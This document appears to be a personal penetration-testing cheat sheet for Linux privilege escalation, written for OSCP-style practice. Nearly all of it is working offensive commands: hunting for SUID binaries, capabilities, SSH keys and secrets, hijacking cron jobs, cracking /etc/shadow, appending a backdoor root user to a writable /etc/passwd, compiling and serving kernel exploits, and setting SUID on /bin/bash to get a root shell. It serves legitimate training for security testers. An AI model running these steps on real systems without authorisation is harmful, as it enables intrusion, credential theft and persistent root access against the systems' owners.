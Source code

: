 ### Methodology
If moving laterally first check home directories if denied this indicates we need to escalate to that user first.
#### User and groups
Make note of any custom groups!
```
whoami
whoami -groups
```

#### Binary permissions 
[https://gtfobins.github.io/](https://gtfobins.github.io/)
```
#sudoers
sudo -l

#capabilities
/usr/sbin/getcap -r / 2>/dev/null

#suid and guid
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
#### Searching for Secrets
```
#Known files and variables
env
bashrc + bash_history

#SSH Keys
find / -name id_rsa 2> /dev/null
find / -name authorized_keys 2> /dev/null
```

#### Locally running services
These can be forwarded [here](obsidian://open?vault=Offensive-Security&file=OSCP%2FPost%20Exploitation%2FTunneling)
```
ss -ntplu
sockstat -l
netstat -an
```

#### Interesting Directories
Enumerate these thoroughly for secrets!
```
/home
/var/log
/var/www/html #Any internal websites or configs here?
/tmp
/opt

#Find all files that are readble by user.
find /etc -type f -readable 2>/dev/null

```
#### Processes (https://github.com/DominicBreuker/pspy)
Any unusual processes or commands being run?
```
#Only prints system commands.
./psspy64 -p -i 1000

#Prints system commands and events.
./pspy64 -pf -i 1000

#Looking for root processes
ps aux | grep "^root"
watch -n 1 "ps -aux | grep pass"
```
#### Cron
Are there any scripts we can write to?
Are there any scripts that have a customized PATH we can write to?
```
#Inspect these for cronjobs that we could hijack
cat /etc/crontab
ls -lah /etc/cron*
crontab -l

#Can we see running cronjobs?
grep "CRON" /var/log/syslog
```


### World Writeable Directories

```
find / -writable -type d 2>/dev/null
```
#### Automation

```
./linpeas.sh
```


#### Weak File Permissions

```
#Readable /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

#Writable /etc/passwd
#Generate new SHA hash on local machine and write that in replace of the root one:
mkpasswd -m sha-512 <new-password>

#Don't forget to escape $
echo "root2:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

#### Kernel Exploits

```
#Compile exploits inside XenSpawn to avoid issues.
https://github.com/X0RW3LL/XenSpawn

uname -a 
cat /etc/issue
searchsploit linux kernel <version> priv esc

#Linux Exploit Suggester
linuxexploitsuggest.pl -k <version>

#Start Xenspawn
sudo systemd-nspawn -M test

#compile exploit on Xenspawn
`gcc <file.c> -o <exploit>`

#Start python server on kali.
/var/lib/machines/test/root
python -m http.server 80
```





```
#Alternate way to get root rather then using a reverse shell.
chmod +s /bin/bash
/bin/bash -p
```